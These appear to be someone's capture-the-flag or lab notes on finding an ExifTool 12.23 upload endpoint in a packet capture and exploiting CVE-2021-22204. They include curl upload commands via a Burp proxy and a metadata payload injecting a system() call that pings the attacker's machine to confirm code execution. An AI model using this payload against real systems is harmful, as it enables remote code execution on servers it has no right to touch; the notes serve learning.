- We've download backup
- check it `file backup`
- This is a packet capture, view in wireshark or tshark
- `wireshark backup`
- remove dns to make view easiser `!dns`
- we should now seee HTTP, TCP
- Follow TCP stream
- see exiftest.php upload
- There is a POST request, which is the endpoint
- Take the endpoint, and we can check the headers/body/etc
- THe pospt request is showing file upload, that is getting renamed, EXIFTOOL, and where it is uplaod to the server
- Info Disclosure on EXIFTOOl ver 12.23
- Search: exiftool 12.23 rce site:github.com
	- we our finding RCE/arbitrary code execution https://github.com/AssassinUKG/CVE-2021-22204
- check if we can access tool : ip/exiftest.php
- Try with CURL!!
```bash


  ```

## Manual Exploit 
- we our finding RCE/arbitrary code execution https://github.com/AssassinUKG/CVE-2021-22204
- Check if we can fully upload an image
- open start BURP
- use curl to port to endpoint
```
export http_proxy=http://127.0.0.1:8080/
# curl is designed to automatically check and respect the `http_proxy` environment variable.

curl -i http:/ip/

locate sample.png
cp sample.png .
open sample.png  # basic image

curl -i -F name=test.png -F myfile=@sample.png http://ip/exiftest.php -v -L
-i : headers
-F : post paramater
@ : try to upload file in PWD
-v : verbose
-L : follow redirects

```

new payload file - using ping to test for RCE, instead of REVSHELL.. just to validate this is working
``` 
(metadata "\c${system('pinc -c 3 192.168.KALIIP')};)
sudo tcpdump icmp -i tun0  # listen for icmp
```
